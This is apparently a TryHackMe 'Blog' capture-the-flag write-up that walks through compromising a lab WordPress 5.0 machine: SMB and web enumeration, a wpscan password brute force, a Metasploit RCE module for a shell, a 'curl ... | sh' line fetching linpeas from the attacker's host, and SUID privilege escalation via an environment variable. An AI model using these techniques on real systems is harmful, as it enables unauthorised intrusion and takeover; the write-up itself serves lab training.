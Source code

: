 Blog-tryhackme ;22 JUL 2021  

machine ip : 10.10.116.161

## SCANNING 

### basic scanning 

└─$ nmap -sV -v 10.10.116.161 -oN nmap/intial

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

```

ENUMRATION
==========
smb service
------------
└─$ smbclient -L 10.10.116.161                                                                                                                                                      
`  BillySMB        Disk      Billy's local SMB Share `

└─$ smbclient -N //10.10.116.161/BillySMB

```
 Alice-White-Rabbit.jpg              N    33378  Tue May 26 14:17:01 2020
 tswift.mp4                          N  1236733  Tue May 26 14:13:45 2020
 check-this.png                      N     3082  Tue May 26 14:13:43 2020

```
[*] download them all and check them 

$ steghide extract -sf Alice-White-Rabbit.jpg  

wrote extracted data to "rabbit_hole.txt".
```
$ cat rabbit_hole.txt                                                                                                 
You've found yourself in a rabbit hole, friend.

```

http service 
--------------
[*] searching for directories .

└─$ gobuster dir -u "http://10.10.116.161/" -w=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  | tee gobuster.txt
```
/rss                  (Status: 301) [Size: 0] [--> http://10.10.116.161/feed/]
/login                (Status: 302) [Size: 0] [--> http://blog.thm/wp-login.php]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.116.161/feed/]  
/atom                 (Status: 301) [Size: 0] [--> http://10.10.116.161/feed/atom/]
/wp-content           (Status: 301) [Size: 319] [--> http://10.10.116.161/wp-content/]
/admin                (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]         
/wp-includes          (Status: 301) [Size: 320] [--> http://10.10.116.161/wp-includes/]
/dashboard            (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]          
```

## note :
because blog.thm is a local webpage and hence we are in the same network with the machine we need to provide ip and name in the /etc/hosts "dns" . so we can access the page .

10.10.116.161    blog.thm

[*] let's look at this page :
http://blog.thm/wp-login.php
### via wappalyzer extenstion i know it is wordpress 5.0 

Billy Joel : not a valid user name .

[*] using wpscan to enumrate users 

" it just get names from the web page 'comments'.'posts','etc' so some can be wrong "

─$ wpscan --url blog.thm --enumerate u | tee wpscan-users   


let's try results to verify :       

```
kwheel  "works"
bjoel   "works"
karen Wheeler XX
Billy joel XX

```
[*] hence bjoel works at IT field it doesn't seem his password will be so easy to crack so let's try kwheel first and see results !



[*] using wpscan to crack kwheel password 

└─$ wpscan --url blog.thm -U kwheel  -P /usr/share/wordlists/rockyou.txt               2 ⨯

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / cutiepie1     

```

### we can also use hydra and provide it with the failed message .

when password is wrong our post request response is :

log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1

EXPLOITATION
=============
goal is to upload a php revere shell and get in .

no plugins or themes options in the page :( .

let's try metasploit module .

multi/http/wp_crop_rce  # fits the wordpress 5.0 rce .

### set password ,username , rhost= blog.thm ,lhost  then exploit .


================== WE GOT A SESSION ================

Server username: www-data (33)

to get a stable shell :

$shell

$python -c "import pty ; pty.spawn('/bin/bash')"

[*]seaching for user.txt

/home/bjoel/user.txt
```
You won't find what you're looking for here.

TRY HARDER
```
"it doesn't work :( as a submission"

pdf file :
---------
```
This letter is to inform you that your employment with Rubber Ducky Inc. will end effective immediately
on 5/20/2020.

```
so it seems a /media/usb relevant but we need to be root to access it .

PRIVILEGE ESCALATION
====================
$sudo -l
we need our password so not helpful .

$find / -type f -user root -perm -4000 -exec ls -l {} + 2>/dev/null

let's check this :

-rwsr-xr-x 1 root root            136808 Oct 11  2019 /snap/core/8268/usr/bin/sudo     #need password

-rwsr-sr-x 1 root root              8432 May 26  2020 /usr/sbin/checker

https://gtfobins.github.io/#checker #no results :(

try to run it 
/usr/sbin/checker

Not an Admin

linpeas
========

on my side :
-------------
(kali㉿kali)-[~/Tryhackme/blog/linpeas]
└─$ python3 -m http.server  

on victim side :
-----------------

$curl "http://10.8.203.221:8000/linpeas.sh" | sh

doesn't help alot but we know a user exists .

bjoel:x:1000:1000:Billy Joel:/home/bjoel:/bin/bash


download this checker file and try to get any info using cutter or IDA .
meterpreter > download /usr/sbin/checker .

cutter results :

![cutter](https://user-images.githubusercontent.com/67979878/126591875-65cf2723-f362-4e08-82fc-b60e690c2717.PNG)

we can see it checks in /bin/bash if varirable admin is not 0x00 . 

so let's try set value before executing it  .

$export admin=admin

$/usr/sbin/checker 

=============== NOW WE ARE ROOT ===============

$cat /media/usb/user.txt

$cat /root/root.txt
